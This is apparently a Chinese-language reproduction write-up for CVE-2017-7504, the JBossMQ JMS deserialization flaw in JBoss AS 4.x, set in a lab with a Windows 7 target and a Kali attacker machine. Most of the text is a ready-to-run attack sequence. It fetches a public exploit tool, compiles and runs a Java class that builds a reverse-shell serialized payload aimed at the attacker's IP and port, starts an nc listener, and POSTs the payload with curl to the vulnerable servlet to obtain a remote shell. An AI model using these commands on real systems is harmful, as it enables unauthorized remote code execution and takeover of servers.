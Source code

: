（CVE-2017-7504）JBoss 4.x JBossMQ JMS 反序列化漏洞
===================================================

一、漏洞简介
------------

JBoss AS 4.x及之前版本中，JbossMQ实现过程的JMS over HTTP Invocation
Layer的HTTPServerILServlet.java文件存在反序列化漏洞，远程攻击者可借助特制的序列化数据利用该漏洞执行任意代码。

二、漏洞影响
------------

JBoss AS 4.x及之前版本

三、复现过程
------------

win7一台，ip为172.26.1.127（靶机，安装了java环境）

kali一台，ip为192.168.1.192(攻击机)

输入<http://172.26.1.127:8080/jbossmq-httpil/HTTPServerILServlet>，如果显示下图，则可能存在漏洞

![](./resource/(CVE-2017-7504)JBoss4.xJBossMQJMS反序列化漏洞/media/rId25.png)

进入kali攻击机，下载反序列化工具:<https://github.com/ianxtianxt/CVE-2015-7501/>

解压完，进入到这个工具目录 ,执行命令:

> 继续执行命令:

    javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java
    java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 192.168.1.192:4444（IP是攻击机ip,4444是要监听的端口)

新界面开启nc准备接收反弹过来的shell。命令:nc -lvnp 4444

这个时候在这个目录下生成了一个ReverseShellCommonsCollectionsHashMap.ser文件，然后我们curl就能反弹shell了，执行命令:

    curl http://172.26.1.127:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @ReverseShellCommonsCollectionsHashMap.ser 

![](./resource/(CVE-2017-7504)JBoss4.xJBossMQJMS反序列化漏洞/media/rId27.png)

回到nc界面，发现shell已经反弹回来了

![](./resource/(CVE-2017-7504)JBoss4.xJBossMQJMS反序列化漏洞/media/rId28.png)
